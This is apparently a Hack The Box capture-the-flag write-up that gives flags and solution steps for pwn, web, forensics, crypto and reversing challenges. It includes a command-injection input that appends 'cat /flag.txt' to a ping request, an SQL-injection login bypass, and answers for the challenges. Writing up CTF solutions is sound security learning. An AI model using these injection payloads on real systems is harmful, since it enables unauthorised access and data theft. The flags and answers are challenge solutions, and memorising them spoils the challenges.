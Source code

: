 # PWN:
    
## Initialise Connection:

```
nc 165.232.100.46 30002
```

### Flag: `HTB{g3t_r34dy_f0r_s0m3_pwn}`

## Questionnaire:

- nc 165.232.98.69 30697
- 64-bit
- Dynamic
- vuln()
- 0x20
- gg()
- fgets()
- 40
- gdb ./test -> gdb p gg
- 0x401176

### Flag: `HTB{th30ry_bef0r3_4cti0n}`

# Web:

## Trapped Source:

Keypad PIN hardcoded in page source:

```        
window.CONFIG = window.CONFIG || {
    buildNumber: "v20190816",
    debug: false,
    modelName: "Valencia",
    correctPin: "8291",
    }
```

### Flag: `HTB{V13w_50urc3_c4n_b3_u53ful!!!}`

## Gunhead:

- Source reveals that user input is passed directly to curl command via ping command
- execute arbitrary commands by appending to ping e.g. `/ping localhost; whoami`
- flag in **/flag.txt** -> 
```
/ping localhost; cat /flag.txt
```

### Flag: `HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`

## Drobots:

- Bypass login with SQL injection

```
username: " or ""="
password: " or ""="
```

### Flag: `HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}`

# Forensics:

## Plaintext Treasure:

- Open wireshark
- Statistics -> Conversations (only two endpoints)
- tab TCP, notice port **1337**
Filter:

```
tcp.port == 1337 && http
```

- first packet is **POST/token** 
- Right click on the above packet and select **follow HTTP stream**


### Flag: `password is HTB{th3s3_4l13ns_st1ll_us3_HTTP}`

## Alien Cradle:

- Open powershell script and find this line:

```
'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}
```

- Remove '+' signs and concatenate string:

### Flag: `HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}`

# Crypto:

## Ancient Encodings:

- Python script shows input text is **base64 encoded** then **converted to hex**
- Use python, cyberchef or another tool and take the following steps
- convert hex to string (from hex)
- base64 decode

### Flag: `HTB{1n_y0ur_j0urn3y_y0u_wi1l_se3_th15_enc0d1ngs_ev3rywher3}`
        
# Reversing:

## Hunting License

Access questionnaire
```
nc 206.189.112.129 31332
```

Answers:
1. `elf`
2. `x86_64`
3. `libreadline.so.8` (ldd license | strings license | ghidra)
4. `00401172` (memory address of main, gdb license -> info functions | ghidra)
5. `5` (how many puts in main, gdb or ghidra)
6. `PasswordNumeroUno` (strings license)
7. `0wTdr0wss4P` (strings license)
8. `P4ssw0rdTw0` (reverse above)

Third password:
- G{zawR}wUz}r (strings license)
- 0x13 (XOR key for above, cyberchef XOR brute force)
- ThirdAndFina.. (first half of password(?))
